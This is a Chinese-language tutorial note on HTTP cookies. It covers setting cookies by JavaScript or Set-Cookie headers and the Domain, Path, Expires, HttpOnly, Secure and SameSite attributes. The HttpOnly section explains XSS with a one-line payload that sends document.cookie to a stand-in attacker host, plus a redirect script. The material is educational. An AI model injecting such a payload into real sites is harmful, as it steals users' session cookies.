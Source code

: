 可以通过服务端进行设置，也可以直接在浏览器端使用JavaScript进行设置

- 浏览器端：通过 js 代码来设置，例如 document.cookie = "firstName=example; 

- 服务器端：通过给 Http Response Headers 中的`Set-Cookie`字段赋值，来设置 cookie。客户端接收到Set-Cookie字段后，将其存储在浏览器中

它包含以下几个属性：

- Domain 标识指定了哪些主机可以接受 Cookie，如果指定了 Domain，则一般包含子域名（子域名可以访问父域名的 Cookie）

- Path 标识指定了主机下的哪些路径可以接受 Cookie（该 URL 路径必须存在于请求 URL 中）。以字符 %x2F (/) 作为路径分隔符，子路径也会被匹配

  设置 Path=/docs，则以下地址都会匹配：

  /docs
  /docs/Web/
  /docs/Web/HTTP

- Expires / Max-Age Cookie 的过期时间，过了这个时间之后 Cookie 将会自动删 除

  ```
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
  
  <!-- Max-Age 的单位是秒 -->
  document.cookie = 'promo_shown=1; Max-Age=2600000; Secure'
  ```

- HttpOnly 为避免跨域脚本 (XSS) 攻击，通过 JavaScript 的 Document.cookie API 无法访问带有 HttpOnly 标记的 Cookie，它们只应该发送给服务端。如果包含服务端 Session 信息的 Cookie 不想被客户端 JavaScript 脚本调用，那么就应该为其设置 HttpOnly 标记

  ```
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
  ```

  xss攻击是指往网页中插入恶意的JavaScript脚本，达到窃取cookie值，恶意跳转引流或者其他的目的

  窃取取cookie：

  ```js
  new Image().src = 'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie
  ```

  恶意跳转：

  ```html
  <script>
    window.location.href="http://www.baidu.com";
  </script>
  ```

- Secure 标记为 Secure 的 Cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端

- SameSite Cookie 允许服务器要求某个 Cookie 在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）

  ```
  Set-Cookie: key=value; SameSite=Strict
  ```
  + None 浏览器会在同站请求、跨站请求下继续发送 Cookies，不区分大小写；

  + Strict 浏览器将只发送相同站点请求的 Cookie(即当前网页 URL 与请求目标 URL 完全一致)。如果请求来自与当前 location 的 URL 不同的 URL，则不包括标记为 Strict 属性的 Cookie；

  + Lax 在新版本浏览器中，为默认选项，Same-site Cookies 将会为一些跨站子请求保留，如图片加载或者 iframe 不会发送，而点击 `<a>` 标签会发送；
